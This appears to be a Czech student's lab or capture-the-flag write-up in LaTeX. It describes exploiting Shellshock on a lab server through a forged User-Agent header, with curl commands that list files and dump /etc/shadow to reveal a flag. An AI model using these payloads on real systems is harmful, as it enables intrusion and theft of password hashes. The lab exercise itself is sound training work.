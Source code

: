 \documentclass{article}
\begin{document}
\section{Postup}
\subsection*{Tajemství A}

\paragraph{Postup pro získání tajemství A:}

\begin{itemize}
    \item \textbf{Zahájení testování serveru:} Nejprve jsem provedla běžný požadavek na server, abych zjistila, zda server správně odpovídá:
    \begin{verbatim}
    curl http://10.89.1.157
    \end{verbatim}
    Server odpověděl, což znamená, že je online a připraven na připojení.

    \item \textbf{Testování zranitelnosti Shellshock:} Následně jsem využila známé zranitelnosti Shellshock k provedení vzdáleného spuštění příkazu na serveru. Poslala jsem HTTP požadavek s podvrženou hlavičkou \texttt{User-Agent}, která obsahovala škodlivý kód. Tento kód spustil příkaz \texttt{ls -la}, což způsobilo výpis souborů v adresáři:


    \begin{verbatim}
    curl -H 'User-Agent: () { :; }; echo vulnerable;
    bash -c "ls -la"' http://10.89.1.157/cgi-bin/gate
    \end{verbatim}
    Server vrátil odpověď, která potvrzuje, že zranitelnost Shellshock je přítomná a server reagoval na požadavek.

    \item \textbf{Získání citlivých informací z /etc/shadow:} V další fázi jsem použila tuto zranitelnost k získání citlivých informací z konfiguračního souboru \texttt{/etc/shadow}, který obsahuje hesla uživatelů v zašifrované podobě. Použila jsem podobný požadavek jako v předchozím kroku, ale s příkazem pro výpis souboru \texttt{/etc/shadow}:
    \begin{verbatim}
    curl -H 'User-Agent: () { :; }; echo ; 
    /bin/bash -c "cat /etc/shadow"' http://10.89.1.157/cgi-bin/gate
    \end{verbatim}
    Tento příkaz mi umožnil získat obsah souboru \texttt{/etc/shadow}, který obsahoval tajemství A:
    \begin{center}
    \texttt{Tajemstvi\_A\_3c3c26b0d80d2e0ae7bc94f850a89220dc99c710cdfac031c01063bdd698a159}
    \end{center}
\end{itemize}
\end{document}
